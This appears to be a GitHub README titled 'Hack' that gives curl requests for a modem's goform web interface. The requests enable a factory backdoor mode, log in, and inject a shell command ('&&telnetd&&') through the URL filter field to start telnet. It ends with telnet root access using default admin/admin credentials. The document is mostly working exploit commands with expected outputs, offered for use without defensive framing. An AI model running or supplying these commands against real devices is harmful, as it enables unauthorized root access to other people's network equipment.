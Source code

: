 ## Hack

Linux  users must install curl and telnet

Password is base64 encoded
[https://www.base64encode.org](http://https://www.base64encode.org)

Linux users may use base64 in terminal (see man base64)

modem_ip is your modem IP

### Factory Backdoor

```
Method: POST

curl -s -H "Referer: http://<modem_ip>/index.html" "http://<modem_ip>/goform/goform_set_cmd_process?isTest=false&goformId=CHANGE_MODE&change_mode=2&password=<Password>"

if is OK {"result":"success"}

```
### Enable Root Acess

```
Method: POST

curl "http://<modem_ip>/goform/goform_set_cmd_process" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -H "Referer: http://<modem_ip>/index.html" --data "isTest=false&goformId=LOGIN&password=<Password>"

if is OK  {"result":"3"}

```

### Exploits Nvram

```
Method: POST

curl "http://<modem_ip>/goform/goform_set_cmd_process" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -H "Referer: http://<modem_ip>/index.html" --data "isTest=false&goformId=URL_FILTER_ADD&addURLFilter=http%3A%2F%2F_L33T_H4X0R_%2F%26%26telnetd%26%26"

if is OK {"result":"success"}

```

### SSH Access

```
telnet <modem_ip> 4719

User: admin
Pass: admin

```
